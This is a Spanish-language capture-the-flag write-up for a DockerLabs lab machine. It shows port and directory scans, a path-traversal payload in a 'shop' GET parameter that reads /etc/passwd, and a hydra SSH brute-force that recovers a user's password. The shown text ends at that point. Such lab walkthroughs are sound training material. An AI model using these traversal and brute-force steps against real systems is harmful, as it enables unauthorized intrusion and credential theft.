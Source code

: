 # Maquina Littlepivoting - DockerLabs

* Nivel : Medio
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina 1 : 10.10.10.2

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 10.10.10.2
```

```bash
Nmap scan report for 10.10.10.2
Host is up (0.000071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03:cf:72:54:de:54:ae:cd:2a:16:58:6b:8a:f5:52:dc (ECDSA)
|_  256 13:bb:c2:12:f5:97:30:a1:49:c7:f9:d0:ba:d0:5e:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:0A:0A:0A:02 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/13%OT=22%CT=1%CU=39486%PV=Y%DS=1%DC=D%G=Y%M=02420
OS:A%TM=68737B46%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%I
OS:I=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW
OS:7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7C70%W2=7C70%W3=7C70%W4=7C70%W5=7C70
OS:%W6=7C70)ECN(R=Y%DF=Y%T=40%W=7D78%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%
OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W
OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
OS:FI=N%T=40%CD=S)
```

## Escaneo web

```bash
gobuster dir -u http://10.10.10.2/ -w /usr/share/wordlists/dirb/big.txt -t 30 -x php,txt,htm
````

```bash
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.htm        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.htm        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
/shop                 (Status: 301) [Size: 307] [--> http://10.10.10.2/shop/]

```
Dentro de shop hay un posible punto de vulnerabilidad LFI basado en el mensaje de error que muestra. El error hace referencia a $_GET['archivo'], lo que indica que la aplicación está usando parámetros GET para cargar archivos.

Probar con :
```bash
http://10.10.10.2/shop//?archivo=../../../../etc/passwd
```
Muestra el /ect/passwords donde obtenemos 2 users para acceder por fuerza bruta.

```bash
sudo hydra -l manchi -t 4 -P /usr/share/wordlists/rockyou.txt 10.10.10.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-13 05:33:13
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.10.2:22/
[22][ssh] host: 10.10.10.2   login: manchi   password: lovely
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-13 05:33:35

```



